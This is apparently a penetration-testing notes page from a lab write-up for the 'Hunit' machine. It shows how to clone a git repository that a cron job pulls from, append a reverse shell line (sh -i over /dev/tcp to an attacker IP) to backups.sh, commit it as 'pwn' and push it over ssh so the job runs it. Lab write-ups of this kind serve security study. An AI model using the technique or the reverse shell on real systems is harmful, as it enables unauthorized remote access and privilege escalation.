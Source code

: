 # Git Repository

The point of this is to successfuly make changes to a repository that is being opened somewhere else. I encountered this in Hunit. In Hunit, there was a cron job that used or pulled backup.sh from this git-server. However we did not have sufficient permissions as the current user to make the changes to the repository, so we had to use ssh to make changes as another user.&#x20;

If we are in the machine locally, and we find the github server directory we can clone it like this:

![](<../../../.gitbook/assets/image (58).png>)

As we can see by simply going to that directory we can see so many things that it is really hard to make sense out of this information.&#x20;

```
[dademola@hunit ~]$ git clone file:///git-server/ 
Cloning into 'git-server'...
remote: Enumerating objects: 12, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 12 (delta 2), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (12/12), done.
Resolving deltas: 100% (2/2), done.
```

Once we clone it we can simply navigate to it and see the contents.&#x20;

In order to make changes we have to make a Git identity like this:e

```
[dademola@hunit git-server]$ git config --global user.name "dademola"
[dademola@hunit git-server]$ git config --global user.email "dademola@hunit.(none)"
```

To clone the repository remotely over ssh we would do it as such:&#x20;

```
kali@kali:~$ GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@192.168.120.204:/<git-server-name>
Cloning into 'git-server'...
remote: Enumerating objects: 12, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 12 (delta 2), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (12/12), done.
Resolving deltas: 100% (2/2), done.
```

And make our own identity like this:

```
kali@kali:~$ cd git-server
kali@kali:~/git-server$ git config --global user.name "kali"
kali@kali:~/git-server$ git config --global user.email "kali@kali.(none)"
```

```
kali@kali:~$ cd git-server
kali@kali:~/git-server$ git config --global user.name "kali"
kali@kali:~/git-server$ git config --global user.email "kali@kali.(none)"
kali@kali:~/git-server$ echo "sh -i >& /dev/tcp/192.168.118.8/8080 0>&1" >> backups.sh 
kali@kali:~/git-server$ chmod +x backups.sh
```

To commit those changes we would do it like this.&#x20;

```
kali@kali:~/git-server$ git add -A
kali@kali:~/git-server$ git commit -m "pwn"
[master cb7104c] pwn
 1 file changed, 1 insertion(+)
 mode change 100644 => 100755 backups.sh
kali@kali:~/git-server$ GIT_SSH_COMMAND='ssh -i ~/id_rsa -p 43022' git push origin master
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Delta compression using up to 4 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 302 bytes | 302.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
To 192.168.120.204:/git-server
   b50f4e5..0212790  master -> master
kali@kali:~/git-server$ 
```

So if there is a file that is being used as a cron tab and we have credentials to make changes to a repository over ssh this is how we do it. If there is any other way we know that the principle is to make changes to the files someway.

<details>

<summary>Hunit</summary>

[https://app.gitbook.com/s/x7pGGgP03A1fT5JYoK4x/priv-escalation](https://app.gitbook.com/s/x7pGGgP03A1fT5JYoK4x/priv-escalation)

</details>
